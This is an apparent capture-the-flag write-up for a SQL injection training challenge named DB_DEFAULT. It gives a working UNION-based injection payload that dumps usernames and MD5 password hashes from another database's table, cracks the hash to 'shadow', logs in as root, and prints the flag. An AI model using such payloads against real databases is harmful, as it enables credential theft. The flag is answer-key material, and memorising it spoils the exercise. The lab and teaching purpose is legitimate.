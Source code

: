 # <span style="text-decoration: underline"> DB_DEFAULT </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>

___

# <span style="text-decoration: underline">problem</span>

From the [member](/member) challenge we have found that there is a table called `db_default` of the database `Member_Brute_Force` that contains the following columns

- id
- username
- password

Let's try to see if we can findout anything interesting in that database!

# <span style="text-decoration: underline">Solution</span>

## Extract more contents from the table `db_default`

During the [member](/member) challenge we have found out what `table` contains what `column` name

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

Let's try to get the contents of this table

> Remember that if we try to access a table that is not present in the default database but in some other database then we have to use the following syntax `database.table`

```sql
1 AND 1=2 UNION SELECT username, CONCAT(CHAR(124), id, CHAR(124), username, CHAR(124), password, CHAR(124)) AS name FROM Member_Brute_Force.db_default --
```

We get the following informations

|Id|Username|Password|
|--|--|--|
|1|root|3bf1114a986ba87ed28fc1b5884fc2f8|
|2|admin|3bf1114a986ba87ed28fc1b5884fc2f8|

We can see the that we have 2 users contining `md5` hash as their password. We allready know the password for the user **admin** thanks to the [brutforce](/brutforce.md) challenge which is `shadow`. We can easily verify that the `md5` hash of the word `shadow` is `3bf1114a986ba87ed28fc1b5884fc2f8` using the following command on **Linux** `echo -n "shadow" | md5sum` and and **MacOs**  `echo -n "shadow" | md5`

And we can see that the both user password hash is "3bf1114a986ba87ed28fc1b5884fc2f8" thus `shadow` being the password for both of them.

And when we try to login using the following credentials 
|username|password|
|--|--|
|root|shadow|

We get the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.

> This is the same flag as for the `brutforce` challenge where we logged is as the user **admin** using the password `shadow`

# <span style="text-decoration: underline">How to avoid the problem</span>

Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string.


# <span style="text-decoration: underline">Flag</span>

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
